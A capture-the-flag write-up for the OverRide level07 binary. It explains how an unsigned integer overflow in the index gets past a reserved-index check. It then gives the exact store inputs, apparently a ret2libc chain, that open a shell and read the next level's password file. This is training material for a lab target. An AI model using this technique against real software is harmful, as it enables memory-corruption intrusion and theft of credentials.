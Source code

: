 We take a look at the decompiled code.

```c
int store_number(unsigned int *a0)
{
    void* v0;  // [bp-0x14], Other Possible Types: unsigned int
    void* v1;  // [bp-0x10], Other Possible Types: unsigned int

    v0 = 0;
    v1 = 0;
    printf(" Number: ");
    v0 = get_unum();
    printf(" Index: ");
    v1 = get_unum();
    if (v1 % 3 && v0 >> 24 != 183)
    {
        a0[v1] = v0;
        return 0;
    }
    puts(" *** ERROR! ***");
    puts("   This index is reserved for wil!");
    puts(" *** ERROR! ***");
    return 1;
}
```

There is a condition on the index which doesn't store the number if the index is divisible by 3 or if the last byte of the number is equal to 183.  
As 114 is divisible by 3 we cannot insert our value into the buffer.

If we check the decompiled code of the **Hex-Rays** decompiler, we notice that the condition is run on the index number, but the insertion is done of the index number multiplied by 4: `*(_DWORD *)(a1 + 4 * v3) = unum;`.  
Thankfully for us, an unsigned value loops back to 0 when it is greater than `UINT_MAX`. In order to get the number 114, we have to calculate `UINT_MAX + 457 (456 + 1) = 4294967752`. Let's divide it by 4 and we get `1073741938` which is not divisible by 3.  
The program will pass the condition thanks to our new index number, and then overflows back to 456 in the instruction storing the value.

```
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
```
